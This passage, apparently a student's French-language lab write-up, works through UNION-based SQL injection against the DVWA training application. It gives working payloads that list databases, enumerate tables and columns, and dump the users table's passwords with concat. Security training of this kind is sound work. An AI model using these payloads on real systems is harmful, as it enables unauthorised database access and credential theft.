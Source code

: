     - La liste des BD gérées par ce SGBD, obtenue avec `' union SELECT @@version, schema_name from information_schema.schemata -- ` est, outre information_schema, cdcol, dvwa, mysql, phpmyadmin, test ![Alt text](image-1.png)
    - La base "dvwa" contient les tables : users, guestbook (`' union SELECT @@version, table_name from information_schema.tables where table_schema = 'dvwa' -- `). La table "phpmyadmin" contient les suivantes : 
    ![Alt text](image-2.png) (ce qui a l'air d'être super intéressant pour un attaquant mais je n'ai plus le temps de creuser)
    - La table users contient les colonnes (j'arrête avec les captures d'écran je pense qu'on a compris) : user_id, first_name, last_name, user, password, avatar (`table_name, column_name from information_schema.columns where table_name = 'users'`)
    - A noter que jusqu'ici je fais des requêtes avec <= 2 colonnes, donc j'ai toujours soit juste assez soit trop peu de colonnes pour l'union avec la requete de base ; mais si je veux récupérer + de 2 colonnes, je peux utiliser concat pour ramener le nombre de colonnes réellement renvoyées à 2 : par exemple si je veux récupérer toutes les données de la table user d'un coup, `' union select user, concat(password,0x3a,first_name,0x3a,last_name) from users -- `
